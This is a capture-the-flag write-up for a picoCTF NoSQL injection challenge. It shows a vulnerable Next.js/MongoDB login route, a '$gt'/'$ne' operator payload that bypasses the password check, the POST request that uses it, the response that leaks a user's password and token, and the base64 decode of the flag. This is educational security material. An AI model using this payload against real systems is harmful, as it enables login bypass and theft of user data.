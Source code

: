# No Sql Injection (200 points)
Can you try to get access to this website to get the flag?

You can download the source [here]().

The website is running [here](). Can you log in?

## Data
* app.tar.gz

## Solution
We got the following structure of the web application:
```
app
├── app
│   ├── admin
│   │   └── page.tsx
│   ├── api
│   │   └── login
│   │       └── route.ts
│   ├── favicon.ico
│   ├── globals.css
│   ├── layout.tsx
│   └── page.tsx
├── components
│   ├── Spinner.css
│   └── Spinner.tsx
├── models
│   └── user.ts
├── next.config.js
├── next-env.d.ts
├── package.json
├── package-lock.json
├── postcss.config.js
├── public
│   ├── next.svg
│   └── vercel.svg
├── tsconfig.json
└── utils
    ├── database.ts
    └── seed.ts
```

The first file that we want to investigate is `utils/seed.ts`. Inhere we can find a default user that is created:
```ts
    const newUser = new User({
      firstName: "Josh",
      lastName: "Iriya",
      email: "joshiriya355@mumbama.com",
      password: process.env.NEXT_PUBLIC_PASSWORD as string
    });
```
So we have an email to log in with: `joshiriya355@mumbama.com`

If we take a look into the file `utils/database.ts` we get the information that the application uses MongoDB:
```ts
import mongoose, { ConnectOptions } from "mongoose";

[...]
```

Sence we know from the challenge name that their is a NoSQL injection, we should take a look into the source code that generates the database request. In this case it's the file `api/login/route.ts`. The following part is relevant for us:
```ts
    const users = await User.find({
      email: email.startsWith("{") && email.endsWith("}") ? JSON.parse(email) : email,
      password: password.startsWith("{") && password.endsWith("}") ? JSON.parse(password) : password
    });
```

This is the MongoDB request. If the input (email or password) starts with a `{` and ends with a `}`, the program parses it as JSON string. Otherwise it will be a normal string. But the input is directly pasted into the request and not further filtered, checked or sanitized. 

So we can input any MongoDB characters. For example we can use the following injection:
```
{
  "$gt": "",
  "$ne": null
}
```
This would search for a value that is greater that an empty string and not equal to null. This can't exist, obviously. So this request is always true.

We can now combine this with our known mail adress (`"` has to be escaped in the POST request):
```
{
  "email":"joshiriya355@mumbama.com",
  "password":"{\"$gt\": \"\", \"$ne\": null}"
}
```

If we send this POST request and analyse the response, we retrieve the following object:
```
HTTP/1.1 200 OK
vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Accept-Encoding
content-type: text/plain;charset=UTF-8
date: Tue, 19 Mar 2024 14:01:16 GMT
connection: close
Content-Length: 237

[{"_id":"65f08c7b410684fbd599d448","email":"joshiriya355@mumbama.com","firstName":"Josh","lastName":"Iriya","password":"Je80T8M7sUA","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzUzZDkwZTI4fQ==","__v":0}]
```

The token looks like Base64. So we can try to decode it:
```
$ echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzUzZDkwZTI4fQ==" | base64 -d
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_53d90e28}
```

And we got our flag!
